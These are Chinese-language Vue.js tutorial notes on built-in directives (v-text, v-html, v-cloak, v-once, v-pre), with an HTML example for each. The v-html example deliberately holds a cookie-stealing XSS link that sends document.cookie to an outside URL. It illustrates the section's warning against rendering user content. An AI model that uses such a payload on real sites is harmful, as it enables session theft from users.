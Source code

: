```yaml
---
title: 15.内置指令
abbrlink: 871930164
date: 2023-04-29 22:49:00
category: 
- 前端
- vue核心
tags: vue核心
---
```

复习：
>`v-bind` 单向绑定解析表达式，可简写为:
`v-model` 双向数据绑定
`v-for` 遍历数组 / 对象 / 字符串
`v-on` 绑定事件监听，可简写为@
`v-show` 条件渲染 (动态控制节点是否展示)
`v-if` 条件渲染（动态控制节点是否存存在）
`v-else-if` 条件渲染（动态控制节点是否存存在）
`v-else` 条件渲染（动态控制节点是否存存在）

## 1. v-text 指令

**作用：**向其所在的节点中渲染文本内容 
与插值语法的区别：`v-text`会替换掉节点中的内容，`{{xxx}}`则不会，更灵活

```html
<!DOCTYPE html>
<html>
 <head>
  <meta charset="UTF-8" />
  <title>v-text指令</title>
  <!-- 引入Vue -->
  <script type="text/javascript" src="../js/vue.js"></script>
 </head>
 <body>
  <!-- 准备好一个容器-->
  <div id="root">
   <div>你好，{{name}}</div>
   <div v-text="name"></div>
   <div v-text="str"></div>
  </div>
 </body>

 <script type="text/javascript">
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
  
  new Vue({
   el:'#root',
   data:{
    name:'尚硅谷',
    str:'<h3>你好啊！</h3>'
   }
  })
 </script>
</html>
```
## 2. v-html 指令

了解cookie
![](/img/vue/14/2.png)

1. 作用：向指定节点中渲染包含html结构的内容。
2. 与插值语法的区别：
(1) `v-html`会替换掉节点中所有的内容，{{xx}}则不会。
(2) `v-html`可以识别html结构。
3.严重注意：`v-html`有安全性问题！！！！
(1) 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
(2) 一定要在可信的内容上使用`v-html`，永不要用在用户提交的内容上！

```html
<!DOCTYPE html>
<html>
 <head>
  <meta charset="UTF-8" />
  <title>v-html指令</title>
  <!-- 引入Vue -->
  <script type="text/javascript" src="../js/vue.js"></script>
 </head>
 <body>

  <!-- 准备好一个容器-->
  <div id="root">
   <div>你好，{{name}}</div>
   <div v-html="str"></div>
   <div v-html="str2"></div>
  </div>
 </body>

 <script type="text/javascript">
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

  new Vue({
   el:'#root',
   data:{
    name:'尚硅谷',
    str:'<h3>你好啊！</h3>',
    str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
   }
  })
 </script>
</html>
```
## 3. v-cloak 指令
`v-cloak`指令（没有值）
1. 本质是一个特殊属性，`Vue`实例创建完毕并接管容器后，会删掉`v-cloak`属性
2. 使用 css 配合`v-cloak`可以解决网速慢时页面展示出{{xxx}}的问题

```html
<!DOCTYPE html>
<html>
 <head>
  <meta charset="UTF-8" />
  <title>v-cloak指令</title>
  <style>
   [v-cloak]{
    display:none;
   }
  </style>
  <!-- 引入Vue -->
 </head>
 <body>
  <!-- 准备好一个容器-->
  <div id="root">
   <h2 v-cloak>{{name}}</h2>
  </div>
  <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
 </body>
 
 <script type="text/javascript">
  console.log(1)
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
  
  new Vue({
   el:'#root',
   data:{
    name:'尚硅谷'
   }
  })
 </script>
</html>
```

## 4. v-once 指令
+ v-once所在节点在初次动态渲染后，就视为静态内容了 
+ 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能

```html
<!DOCTYPE html>
<html>
 <head>
  <meta charset="UTF-8" />
  <title>v-once指令</title>
  <!-- 引入Vue -->
  <script type="text/javascript" src="../js/vue.js"></script>
 </head>
 <body>
  <!-- 准备好一个容器-->
  <div id="root">
   <h2 v-once>初始化的n值是:{{n}}</h2>
   <h2>当前的n值是:{{n}}</h2>
   <button @click="n++">点我n+1</button>
  </div>
 </body>

 <script type="text/javascript">
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
  
  new Vue({
   el:'#root',
   data:{
    n:1
   }
  })
 </script>
</html>
```
## 5.v-pre_指令

+ 作用：跳过指定元素和它的子元素的编译过程
+ 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译

```html
<!DOCTYPE html>
<html>
 <head>
  <meta charset="UTF-8" />
  <title>v-pre指令</title>
  <!-- 引入Vue -->
  <script type="text/javascript" src="../js/vue.js"></script>
 </head>
 <body>
  <!-- 准备好一个容器-->
  <div id="root">
   <h2 v-pre>Vue其实很简单</h2>
   <h2 >当前的n值是:{{n}}</h2>
   <button @click="n++">点我n+1</button>
  </div>
 </body>

 <script type="text/javascript">
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

  new Vue({
   el:'#root',
   data:{
    n:1
   }
  })
 </script>
</html>
```